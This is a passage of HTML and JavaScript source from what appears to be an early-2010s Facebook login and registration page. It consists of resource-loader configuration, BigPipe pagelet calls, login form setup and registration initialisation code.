h":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y3\/r\/ppwOo4BAmlb.js"},"AtxWD":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y1\/r\/fvXyHGM5qlP.js"}});
Bootloader.enableBootload({"legacy:async-signal":{"resources":["YO7w5"]},"editor":{"resources":["YO7w5","wLu\/7","JE+14"]},"AsyncDOM":{"resources":["YO7w5","gM1Bs"],"module":true},"ConfirmationDialog":{"resources":["YO7w5","wLu\/7","oE4Do"],"module":true},"Dialog":{"resources":["YO7w5","wLu\/7","byJia"],"module":true},"registration":{"resources":["YO7w5","wLu\/7","JE+14","A77NA","T8gbI","\/K81D"]},"IframeShim":{"resources":["YO7w5","wLu\/7","GTz7X","MqSmz"],"module":true},"ErrorSignal":{"resources":["YO7w5","cNca2"],"module":true},"event-extensions":{"resources":["YO7w5"],"module":true},"AsyncDialog":{"resources":["YO7w5","wLu\/7","GTz7X","byJia"],"module":true},"FbdDialogProvider":{"resources":["\/vuZw","YO7w5","bwsMw"],"module":true},"React":{"resources":["gM1Bs"],"module":true},"AsyncRequest":{"resources":["YO7w5"],"module":true},"PhotoSnowlift":{"resources":["YO7w5","wLu\/7","GTz7X","byJia","3quxQ"],"module":true},"SpotlightShareViewer":{"resources":["YO7w5","wLu\/7","X\/Fq6","zyFOp"],"module":true},"PhotoTagger":{"resources":["YO7w5","wLu\/7","byJia","9kSd2","3quxQ","GTz7X","SRzKv","KQ5I8"],"module":true},"fb-photos-snowlift-css":{"resources":["iQgIT","byJia"]},"Live":{"resources":["YO7w5","gM1Bs"],"module":true},"PhotoTagApproval":{"resources":["YO7w5","3quxQ","SRzKv"],"module":true},"PhotoTags":{"resources":["YO7w5","3quxQ","byJia","SRzKv"],"module":true},"TagTokenizer":{"resources":["YO7w5","3quxQ","M2hRu","SRzKv","byJia","GTz7X"],"module":true},"fb-photos-snowlift-fullscreen-css":{"resources":["VDymv"]},"PhotoPivot":{"resources":["YO7w5","wLu\/7","3quxQ","GTz7X","byJia","2ma5f"],"module":true},"SnowliftPicCropper":{"resources":["YO7w5","wLu\/7","byJia","3quxQ","GTz7X","j07DW","wxq+C"],"module":true},"PhotosButtonTooltips":{"resources":["YO7w5","GTz7X","wLu\/7","byJia","DZmeF"],"module":true},"VideoRotate":{"resources":["YO7w5","H42Jh"],"module":true},"AsyncResponse":{"resources":["YO7w5"],"module":true},"PhotoInlineEditor":{"resources":["YO7w5","3quxQ","GTz7X","wLu\/7","byJia","SRzKv","AtxWD"],"module":true},"Form":{"resources":["YO7w5","wLu\/7"],"module":true},"Toggler":{"resources":["YO7w5","wLu\/7","byJia","GTz7X"],"module":true},"Tooltip":{"resources":["YO7w5","GTz7X","wLu\/7","byJia"],"module":true},"DOM":{"resources":["YO7w5"],"module":true},"Input":{"resources":["YO7w5"],"module":true},"trackReferrer":{"resources":[],"module":true},"DimensionTracking":{"resources":["YO7w5"],"module":true},"HighContrastMode":{"resources":["YO7w5"],"module":true},"detect-broken-proxy-cache":{"resources":["YO7w5"]}});</script>
<script>require("InitialJSLoader").loadOnDOMContentReady(["YO7w5","wLu\/7","T8gbI","uqSgb","ne+Ol","rZ79y"]);</script>
<script>
Bootloader.configurePage(["A77NA","byJia","VuNPD"]);
Bootloader.done(["jDr+c"]);


require("InitialJSLoader").handleServerJS({"elements":[["m639397_2","login_form",2],["m639397_3","loginbutton",2],["m639398_4","login_form",2],["m639395_1","reg",2]],"define":[["BanzaiConfig",[],{"MAX_SIZE":10000,"MAX_WAIT":60000,"COMPRESSION_THRESHOLD":800,"gks":{"cavalry":true,"jslogger":true,"miny_compression":true,"notifications":true,"time_spent":true,"time_spent_debug":true,"useraction":true}}]],"require":[["PixelRatio","startDetecting",[],[1]],["FlipDirectionOnKeypress"],["PostLoadJS","loadAndRequire",[],["DimensionTracking"]],["PostLoadJS","loadAndCall",[],["HighContrastMode","init",[{"currentState":null,"spacerImage":"https:\/\/s-static.ak.facebook.com\/rsrc.php\/v2\/y4\/r\/-PAXP-deijE.gif"}]]],["IEPinnedSite","listenToNotifications",[],["https:\/\/s-static.ak.facebook.com\/rsrc.php\/yP\/r\/FE37bBX_c2p.ico"]],["ClickRefLogger"],["userAction","setUATypeConfig",[],[{"ua:n":false,"ua:i":false,"ua:d":false,"ua:e":false}]],["ScriptPathState","setUserURISampleRate",[],[0.0002]],["userAction","setCustomSampleConfig",[],[{"uan":{"test":{"test":true}}}]],["UserActionHistory"],["TinyViewport"],["WebStorageMonster","schedule",[],[false]],["AsyncRequestNectarLogging"],["LoginFormController","init",["m639397_2","m639397_3"],[{"__m":"m639397_2"},{"__m":"m639397_3"}]]]});

onloadRegister_DEPRECATED(function (){useragentcm();});
onloadRegister_DEPRECATED(function (){
      if (typeof RegUtil == 'undefined') {
        RegUtil = function() {};
      }
      RegUtil.captcha_class="ReCaptchaCaptcha";
      RegUtil.recaptcha_public_key="6LfDxsYSAAAAAGGLBGaRurawNnbvAGQw5UwRWYXL";
      });
onloadRegister_DEPRECATED(function (){RegistrationBootloader.init("registration_container", true, "reg", "form_focus", "https:\/\/www.facebook.com\/ajax\/register.php");});
onloadRegister_DEPRECATED(function (){startFormTypeABTester($("reg"))});
onloadRegister_DEPRECATED(function (){$("u5v8wy73").value = tz_calculate(1354996393)});
onloadRegister_DEPRECATED(function (){try { $("email").focus(); } catch (_ignore) { }});
onafterloadRegister_DEPRECATED(function (){Bootloader.loadComponents(["detect-broken-proxy-cache"], function(){ detect_broken_proxy_cache("0", "c_user") });});
</script>
<script>var bigPipe = new (require('BigPipe'))({"lid":0,"forceFinish":true});</script>

<script>bigPipe.onPageletArrive({"is_last":true,"css":["A77NA","byJia","VuNPD"],"js":["YO7w5","wLu\/7","T8gbI","uqSgb","ne+Ol","rZ79y"],"id":"first_response","phase":0})</script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     

<script>bigPipe.onPageletArrive({"is_last":true,"css":["A77NA","byJia","VuNPD"],"js":["YO7w5","wLu\/7","T8gbI","uqSgb","ne+Ol","rZ79y"],"id":"","phase":1,"the_end":true})</script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           </body></html>
